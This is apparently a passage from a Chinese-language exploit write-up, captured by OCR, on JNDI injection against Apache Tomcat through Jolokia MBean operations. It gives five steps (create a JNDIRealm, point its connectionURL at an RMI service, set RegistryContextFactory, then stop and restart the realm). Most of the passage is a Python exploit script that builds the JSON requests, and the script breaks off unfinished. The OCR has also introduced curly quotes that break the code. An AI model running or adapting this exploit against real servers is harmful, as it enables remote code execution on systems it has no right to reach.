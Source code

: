 *   1.  创建 JNDIRealm
    2.  写入 connectionURL 为你的 RMI Service URL
    3.  写入 contextFactory 为 RegistryContextFactory
    4.  停止 Realm
    5.  启动 Realm 以触发 JNDI 注入

最终 Exploit 如下：

```
 import requests, sys, time, pprint

url = sys.argv[1]

create_realm = {

“mbean”: “Tomcat:type=MBeanFactory”,

“type”: “EXEC”,

“operation”: “createJNDIRealm”,

“arguments”: [“Tomcat:type=Engine”]

}

wirte_factory = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “WRITE”,

“attribute”: “contextFactory”,

“value”: “com.sun.jndi.rmi.registry.RegistryContextFactory”

}

write_url = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “WRITE”,

“attribute”: “connectionURL”,

“value”: “rmi://localhost:1097/Object”

}

stop = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “EXEC”,

“operation”: “stop”,

“arguments”: []

}

start = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

```